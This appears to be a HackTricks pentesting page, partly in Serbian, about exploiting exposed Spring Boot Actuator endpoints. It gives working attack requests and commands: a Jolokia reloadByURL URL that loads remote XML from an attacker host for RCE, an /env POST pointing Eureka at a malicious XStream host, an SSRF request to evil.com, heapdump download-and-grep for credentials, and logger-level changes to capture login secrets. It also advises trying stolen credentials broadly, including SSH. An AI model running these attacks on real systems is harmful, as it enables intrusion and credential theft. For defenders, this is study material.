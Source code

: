 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

- Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
- Certain Actuator endpoints can expose sensitive data or allow harmful actions:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
- In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
- The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
- The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
- Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

- If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
- Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
- Example exploit POST request:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Other Useful Settings**:
- Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

- A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1.  **Env + H2 RCE**:
- Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
- The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
- Example exploit request:
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
## Ispitivanje HeapDump-a za secrets (credentials, tokens, internal URLs)

Ako je `/actuator/heapdump` izložen, obično možete preuzeti kompletan JVM heap snapshot koji često sadrži live secrets (DB creds, API keys, Basic-Auth, internal service URLs, Spring property maps, itd.).

- Preuzimanje i brza trijaža:
```bash
wget http://target/actuator/heapdump -O heapdump
# Quick wins: look for HTTP auth and JDBC
strings -a heapdump | grep -nE 'Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client'
# Decode any Basic credentials you find
printf %s 'RXhhbXBsZUJhc2U2NEhlcmU=' | base64 -d
```

- Dublja analiza pomoću VisualVM i OQL:
- Otvorite heapdump u VisualVM, pregledajte instance `java.lang.String` ili pokrenite OQL da biste tražili secrets:
```
select s.toString()
from java.lang.String s
where /Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client|OriginTrackedMapPropertySource/i.test(s.toString())
```

- Automatizovano izvlačenje pomoću JDumpSpider:
```bash
java -jar JDumpSpider-*.jar heapdump
```
Tipični visokovredni nalazi:
- Spring `DataSourceProperties` / `HikariDataSource` objekti koji otkrivaju `url`, `username`, `password`.
- `OriginTrackedMapPropertySource` entiteti koji otkrivaju `management.endpoints.web.exposure.include`, portove servisa i ugrađeni Basic-Auth u URL-ovima (npr. Eureka `defaultZone`).
- Fragmente plain HTTP request/response koji uključuju `Authorization: Basic ...` uhvaćene u memoriji.

Saveti:
- Koristite wordlist fokusiran na Spring da brzo otkrijete actuator endpoint-e (npr. SecLists spring-boot.txt) i uvek proverite da li su `/actuator/logfile`, `/actuator/httpexchanges`, `/actuator/env`, i `/actuator/configprops` takođe izloženi.
- Credentials iz heapdump-a često rade za susedne servise i ponekad za system users (SSH), pa ih probajte široko.


## Zloupotreba Actuator loggers/logging za hvatanje credentials

Ako `management.endpoints.web.exposure.include` to dozvoljava i `/actuator/loggers` je izložen, možete dinamički povećati nivoe logovanja na DEBUG/TRACE za pakete koji obrađuju authentication i request processing. U kombinaciji sa čitljivim logovima (putem `/actuator/logfile` ili poznatih putanja), ovo može leak credentials koji su poslati tokom login flow-ova (npr. Basic-Auth headers ili form parameters).

- Enumerišite i pojačajte osetljive loggere:
```bash
# List available loggers
curl -s http://target/actuator/loggers | jq .

# Enable very verbose logs for security/web stacks (adjust as needed)
curl -s -X POST http://target/actuator/loggers/org.springframework.security \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.web \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.cloud.gateway \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
```

- Pronađite gde se logovi pišu i sakupljajte:
```bash
# If exposed, read from Actuator directly
curl -s http://target/actuator/logfile | strings | grep -nE 'Authorization:|username=|password='

# Otherwise, query env/config to locate file path
curl -s http://target/actuator/env | jq '.propertySources[].properties | to_entries[] | select(.key|test("^logging\\.(file|path)"))'
```

- Pokrenite login/authentication traffic i parsirajte log za creds. U microservice okruženjima sa gateway-jem ispred auth, omogućavanje TRACE za gateway/security pakete često čini headers i form bodies vidljivim. Neka okruženja čak generišu sintetički login traffic periodično, što čini sakupljanje trivialnim kada je logovanje verbose.

Napomene:
- Resetujte nivoe logovanja kada završite: `POST /actuator/loggers/<logger>` sa `{ "configuredLevel": null }`.
- Ako je `/actuator/httpexchanges` izložen, on takođe može izbaciti recent request metadata koji može uključivati sensitive headers.


## References

- [Exploring Spring Boot Actuator Misconfigurations (Wiz)](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations)
- [VisualVM](https://visualvm.github.io/)
- [JDumpSpider](https://github.com/whwlsfb/JDumpSpider)
- [0xdf – HTB Eureka (Actuator heapdump to creds, Gateway logging abuse)](https://0xdf.gitlab.io/2025/08/30/htb-eureka.html)

{{#include ../../banners/hacktricks-training.md}}
